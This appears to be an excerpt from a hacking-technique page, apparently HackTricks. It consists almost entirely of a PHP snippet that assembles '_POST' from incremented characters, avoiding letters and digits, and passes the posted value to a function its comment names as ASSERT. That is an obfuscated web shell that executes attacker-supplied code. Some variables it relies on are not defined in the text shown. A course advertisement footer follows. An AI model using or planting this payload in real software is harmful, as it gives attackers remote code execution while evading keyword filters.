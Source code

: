 ```php

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```
<details><summary><strong>qaStaHvIS AWS hacking vItlh</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
